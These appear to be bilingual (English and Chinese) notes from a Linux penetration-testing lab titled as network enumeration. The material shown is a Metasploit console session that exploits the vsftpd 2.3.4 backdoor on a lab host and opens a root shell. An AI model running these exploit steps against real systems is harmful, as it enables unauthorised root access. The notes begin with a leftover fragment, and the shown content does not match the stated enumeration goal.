 If we were performing pivoting or if we wanted to identify systems that we can pivot to, then we would typically utilize this command in conjunction with a few others.

That is how to perform network information enumeration on Linux.

# Enumerating Network Information
## Overview
Goal

This lab covers the process enumerating network information from a target system running Linux.

# 枚举网络信息
## 概述
目标

本实验涵盖从运行 Linux 的目标系统枚举网络信息的过程。

## 复现视频内容
Kali Linux : 192.103.56.2

Target IP Address : 192.103.56.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > setg RHOSTS 192.103.56.3
RHOSTS => 192.103.56.3
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.103.56.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.103.56.3:21 - USER: 331 Please specify the password.
[+] 192.103.56.3:21 - Backdoor service has been spawned, handling...
[+] 192.103.56.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.103.56.2:39117 -> 192.103.56.3:6200) at 2023-06-13 02:23:38 +0000

^Z
Background session 1? [y/N]  y
```
